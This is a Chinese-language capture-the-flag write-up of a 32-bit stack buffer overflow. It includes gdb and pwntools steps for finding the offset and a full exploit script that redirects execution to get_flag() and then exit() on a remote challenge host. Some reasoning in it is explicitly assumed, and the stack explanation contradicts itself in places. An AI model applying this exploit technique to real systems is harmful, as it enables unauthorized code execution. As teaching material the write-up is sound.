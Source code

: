 ## 一、题目概况

- **靶机地址**：`110.42.47.169:35830`
    
- **二进制文件**：`vuln`（32 位 x86，非 PIE，可执行栈，无 Canary）
    
- **相关函数**：
    
    - `get_flag()`：打开并打印 `flag.txt`，然后返回
        
    - `exit()`：正常退出程序，确保缓冲区 flush
        

目标：利用栈缓冲区溢出，将程序的控制流劫持到 `get_flag()`，并在其返回后调用 `exit()`，传入正确的参数，使其正常打印并退出，将 flag 发送回我们这端。

---

## 二、环境准备

1. **本地安装 Pwntools**
    
    ```
    pip3 install pwntools
    ```
    
2. **确认远程可连通**
    
    ```
    nc -vz 110.42.47.169 35830
    # Connection to 110.42.47.169 35830 port [tcp/*] succeeded!
    ```
    

---

## 三、二进制静态分析

1. **检查文件属性**
    
    ```
    $ file vuln
    vuln: ELF 32-bit LSB executable, Intel 80386, ... , NX disabled, GNU/Linux
    ```
    
    - **32 位**：地址和寄存器均为 32 位
        
    - **NX disabled**：栈可执行，可做 shellcode，但我们走更简单的 ret2func
        
    - **非 PIE**：代码段地址固定
        
2. **查符号表**
    
    ```
    $ nm vuln | grep get_flag
    080489a0 T get_flag
    $ nm vuln | grep exit
    0804e6a0 T exit
    ```
    
    - `get_flag` 地址：`0x080489A0`
        
    - `exit` 地址： `0x0804E6A0`
        
3. **查看** `**main**` **读取输入逻辑**
    
    ```bash
    0x08048a20 <main>:
        sub    esp, 0x3c         ; 在栈上开辟 0x3C = 60 字节空间
        lea    eax, [esp+4]
        push   eax
        call   _gets             ; 从 stdin 读入到 [esp+4]，最多可写任意长
        add    esp, 0x3c
        ret
    ```
    
    - `gets` 写入缓冲区从 `esp+4` 开始，空间到 `esp+0x3c` 共 `0x3c-4 = 0x38 = 56` 字节。
        
    - 如果我们输入 >56 字节，就会开始覆盖原来保存在栈上的返回地址（EIP）。
        

---

## 四、计算偏移

为了得知填充多少字节能精确覆盖 EIP，我们用 pwntools 的 `cyclic`：

```bash
# 生成 200 字节循环模式，写入文件 in
python3 - << 'EOF'
from pwn import *
open('in','wb').write(cyclic(200))
EOF

# 用 gdb 直接跑到崩溃处，打印 EIP
gdb -q ./vuln \
  -ex "set pagination off" \
  -ex "run < in" \
  -ex "printf \"CRASH EIP = 0x%x\n\", \$eip" \
  -ex "quit"
```

假设你在输出中看到：

```
Program received signal SIGSEGV, Segmentation fault.
CRASH EIP = 0x6161616f
```

`0x6161616f` 对应 ASCII `"oaaa"`。再用 pwntools 算偏移：

```
python3 - << 'EOF'
from pwn import cyclic_find
print(cyclic_find(0x6161616f))
EOF
# 输出：56
```

**最终偏移**：`OFFSET = 56`。

---

## 五、为什么需要调用 `exit()` 且要传参

- 直接 ret2get_flag 后，`get_flag()` 内部会检查两个栈上传入的整型参数是否正确，否则不会打印并会异常退出，不 flush 缓冲。
    
- 观察 `get_flag` 反汇编（假设）可知，它期望栈上有两个参数：
    
    ```
    [esp+0x0] → return addr
    [esp+0x4] → arg1 (0x308CD64F)
    [esp+0x8] → arg2 (0x195719D1)
    ```
    
- 因此，Payload 中在覆盖 `get_flag` 的返回地址之后，还要依次写：
    
    1. `exit` 地址 → `get_flag` 执行完毕后跳到 `exit()`，正常退出并 flush
        
    2. `0x308CD64F` 和 `0x195719D1` → 作为 `get_flag` 的两个参数
        

---

## 六、完整 Exploit 脚本

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

# —— 靶机信息
HOST = '110.42.47.169'
PORT = 35830

# —— 偏移量（buffer → EIP）
OFFSET = 56

# —— 目标函数和参数
GET_FLAG = 0x080489A0   # get_flag() 的地址
EXIT     = 0x0804E6A0   # exit() 的地址
ARG1     = 0x308CD64F   # get_flag 参数1
ARG2     = 0x195719D1   # get_flag 参数2

def main():
    # 1. 连接远程
    p = remote(HOST, PORT)
    log.info(f'已连接到 {HOST}:{PORT}')

    # 2. 构造 Payload
    #    [0x00-0x37] 填充 'A' 填满 buffer
    #    [0x38-0x3B] 覆盖返回地址 → get_flag()
    #    [0x3C-0x3F] get_flag 返回后跳转 → exit()
    #    [0x40-0x43] get_flag 第1个参数
    #    [0x44-0x47] get_flag 第2个参数
    payload  = b'A' * OFFSET
    payload += p32(GET_FLAG)
    payload += p32(EXIT)
    payload += p32(ARG1)
    payload += p32(ARG2)

    # 3. 发送 Payload
    log.info(f'发送 payload，长度 = {len(payload)} 字节')
    p.sendline(payload)

    # 4. 接收并打印 flag
    #    exit() 会正常 flush 并退出，recvall 可拿到全部输出
    data = p.recvall(timeout=3)
    print(data.decode('utf-8', errors='ignore'))

    # 5. 关闭连接
    p.close()

if __name__ == '__main__':
    main()
```
![](https://cdn.jsdelivr.net/gh/wydyxhxs/images/pic/20250715155758077.png)

### 脚本关键点解读

1. `**p32(address)**`  
    将 32‑bit 整数 `address` 转为小端字节序，方便直接拼接到 payload。
    
2. **栈布局**
    
    ```
    [buf (56B)] [EIP] [next ret] [arg1] [arg2]
    ```
    
    - 覆盖后的 `EIP` 跳向 `get_flag`
        
    - `get_flag` 执行完毕后，栈顶地址中存的就是 `exit`，于是程序跳到 `exit()`
        
    - `exit()` 调用时，栈上正好有 `ARG1`、`ARG2` 两个值，与 `get_flag` 期望一致
        
3. **为什么要** `**exit()**`  
    确保程序「正常退出」才会 flush stdout，否则可能仅卡在内核缓冲区里，导致我们得不到回显。
    

---

## 七、知识点小结

1. **栈缓冲区溢出（Stack Buffer Overflow）**
    
    - 利用 `gets()` 或其他不检查长度的函数覆盖返回地址。
        
2. **Ret2func 技术**
    
    - 借助程序内部函数（`get_flag`、`exit`）完成攻击，无需 ROP 链。
        
3. **小端序存储**
    
    - x86 平台下多字节整数以「低字节在前」存储。
        
4. **程序正常退出 vs 异常退出**
    
    - 调用 `exit()` 能确保 libc flush IO 缓冲区，方便远程拿到输出。
        
5. **pwntools 基本用法**
    
    - `remote()` 建立网络连接
        
    - `p32()` 转换地址
        
    - `sendline()`、`recvall()` 收发数据